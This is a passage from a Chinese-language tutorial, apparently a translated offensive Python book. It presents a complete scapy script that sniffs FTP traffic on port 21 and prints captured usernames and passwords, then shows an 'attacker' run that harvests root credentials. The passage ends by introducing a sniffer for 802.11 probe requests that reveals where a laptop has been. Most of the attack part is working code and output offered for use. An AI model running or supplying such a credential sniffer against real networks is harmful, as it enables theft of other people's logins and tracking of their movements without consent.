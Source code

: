 将所有的脚本放在一起，我们只嗅探 21 端口的 TCP 流量。我们还添加一些选项来选择嗅探器使用的网络适配器。运行这个脚本允许我们拦截 FTP 登陆凭证。

```
# coding=UTF-8
import optparse
from scapy.all import *

def ftpSniff(pkt):
    dest = pkt.getlayer(IP).dst
    raw = pkt.sprintf('%Raw.load%')
    user = re.findall('(?i)USER (.*)', raw)
    pswd = re.findall('(?i)PASS (.*)', raw)
    if user:
        print('[*] Detected FTP Login to ' + str(dest))
        print('[+] User account: ' + str(user[0]))
    elif pswd:
        print('[+] Password: ' + str(pswd[0]))

def main():
    parser = optparse.OptionParser('usage %prog -i<interface>')
    parser.add_option('-i', dest='interface', type='string', help='specify interface to listen on')
    (options, args) = parser.parse_args()
    if options.interface == None:
        print parser.usage
        exit(0)
    else:
        conf.iface = options.interface
        try:
            sniff(filter='tcp port 21', prn=ftpSniff)
        except KeyboardInterrupt:
            exit(0)
if __name__ == '__main__':
    main() 
```

运行我们的脚本，我们检测到一个登陆的 FTP 服务器，并显示用户的凭证和登陆的服务器。我们现在有一个少于 30 行 Python 代码的 FTP 凭证嗅探器。当用户的证书可以为我们提供对网络的访问，在下一节中，我们将使用无线监听探测用户的历史记录。

```
attacker:∼# python ftp-sniff.py -i mon0
[*] Detected FTP Login to 192.168.211.1
[+] User account: root\r\n
[+] Password: secret\r\n 
```

# 你的笔记本去过哪？Python 解答

几年前我教了一个无无线安全的课程，为了让学生听讲我关闭了房间里的无线网络，也是为了防止他们攻击任何的受害者。我以无线网络扫描的演示作为课程的开始，发现了一些有趣的东西，在房间里探测到几个客户端试图连接的首选网络。一个特别的学生刚从洛杉矶回来，他的电脑探测到 LAX_Wireless 和 Hooters_WiFi ，我开了一个玩笑，问学生在 Hooters Restaurant 的停留是否满意。他很惊讶，我怎么知道这些信息？监听 802.11 探测请求!

为了提供一个无缝的连接，你的电脑和手机经常保持一个首选的网络列表，其中包括你先前成功连接过的无线网络名称。当你的电脑开机或者网络断开后，你的电脑经常发送 802.11 探测请求搜索列表中的每一个网络名称。 让我们快速的编写一个检测 802.11 网络请求的工具。在这个例子中，我们称呼我们处理数据包的函数为`sniffProbe()`。注意，我们将整理出 802.11 探测请求通过检测数据包是否`haslayer(Dot11ProbeReq)`。如果请求包含新的网络名称我们将打印他们在屏幕上。
